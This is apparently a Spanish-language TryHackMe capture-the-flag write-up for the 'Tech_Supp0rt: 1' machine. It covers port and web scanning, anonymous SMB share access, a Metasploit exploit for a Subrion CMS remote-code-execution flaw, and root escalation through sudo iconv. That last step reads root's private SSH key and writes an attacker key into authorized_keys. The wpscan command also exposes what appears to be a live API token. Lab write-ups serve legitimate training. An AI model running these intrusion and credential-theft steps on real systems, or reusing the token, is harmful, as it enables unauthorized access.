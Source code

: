 https://tryhackme.com/r/room/techsupp0rt1
# Fase de reconocimiento
## Buscamos puertos abiertos
```
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.165.199
```
![[Pasted image 20240502184416.png]]
## Reconocimiento de servicios
```
nmap -sCV -p22,80,139,445 10.10.165.199
```
![[Pasted image 20240502184506.png]]
## Gobuster
```
gobuster dir -u http://10.10.165.199 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20
```
![[Pasted image 20240502185143.png]]
## Buscar vulnerabilidades
```
wpscan --url http://10.10.165.199/wordpress/ --enumerate u,vp --plugins-detection aggressive --api-token=JEAjjAl4QgJHsvAsM4snXHmj5U0ezG0BzgX8LnzSg2U
```
![[Pasted image 20240502192143.png]]
## Crackmapexec
```
crackmapexec smb 10.10.165.199
```
![[Pasted image 20240502184557.png]]
Buscamos archivos compartidos
```
crackmapexec smb 10.10.165.199 --shares -u guest -p ""
```
![[Pasted image 20240502192109.png]]
# Fase de ataque
## SMB
```
smbclient -N //10.10.165.199/websvr
```
![[Pasted image 20240502192719.png]]
Contiene la contraseña de subrion
## Descifrar la contraseña
![[Pasted image 20240502193842.png]]
Buscar panel admin en subrion
```
gobuster dir -u http://10.10.165.199/subrion -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --status-codes-blacklist '301,404,302'
```


![[Pasted image 20240502193936.png]]
Podemos iniciar sesion y tambien ver la version de subrion

## Buscar vulnerabilidades
```
searchsploit subrion
```
![[Pasted image 20240502194054.png]]
Encontramos un LFI

## Explotación
Encontramos un exploit en Github https://github.com/hev0x/CVE-2018-19422-SubrionCMS-RCE

Pero usaremos metaexploit
```
search subrion
```
```
use 0
```
![[Pasted image 20240502195205.png]]
Set options
```
run
```
[-] ==pwned!==


# Privilege Escalation
Dentro de /home podemos encontrar un usuariuo llamado scamsite
Abrimos wp-config.php en busca de credenciales: /var/www/html/wordpress/wp-config.php
![[Pasted image 20240502200236.png]]
## SSH
Probamos las credenciales
![[Pasted image 20240502200413.png]]
Login!

## Comprobamos privilegios
TIene privilegios en iconv, lo buscamos en https://gtfobins.github.io
![[Pasted image 20240502200527.png]]
![[Pasted image 20240502200520.png]]
Se puede usar para leer archivos y escribir
Podriamos leer o escribir la clave privada en ssh
```
sudo -u root iconv -f 8859_1 -t 8859_1 "/root/.ssh/id_rsa"
```

Creamos nuestra clave privada/publica
```
ssh-keygen -t rsa
```
La copiamos dentro de la maquina y la copiamos en el directorio de root
```
cat rsa.pub | sudo -u root iconv -f 8859_1 -t 8859_1 -o "/root/.ssh/authorized_keys"
```
Nos conectamos
```
ssh -i id_rsai root@10.10.165.199
```
[+] ==pwned!==


